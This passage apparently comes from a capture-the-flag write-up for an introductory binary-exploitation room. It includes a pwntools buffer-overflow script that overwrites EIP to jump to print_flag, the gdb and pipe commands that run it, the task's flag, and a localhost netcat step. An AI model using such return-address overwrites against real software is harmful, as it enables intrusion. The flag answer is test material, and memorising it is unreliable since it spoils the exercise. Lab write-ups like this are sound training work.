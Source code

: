 #### What is the flag?

```bash
gdb > info address print_flag
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-19-46.png>)

```python
from pwn import * 

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0x8048536)
payload = padding + eip
print payload
```

```bash
gdb > run < <(python pwn_cyclic.py)
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-22-04.png>)

```bash
python pwn_cyclic.py | ./intro2pwn3
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-22-30.png>)

{% hint style="success" %}
`flag{13@rning_2_pwn!}`
{% endhint %}

## Task 4 Networking

#### What port is serving our challenge?

```bash
cd ../networking/
ls
nc 127.0.0.1 1337
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-26-11.png>)
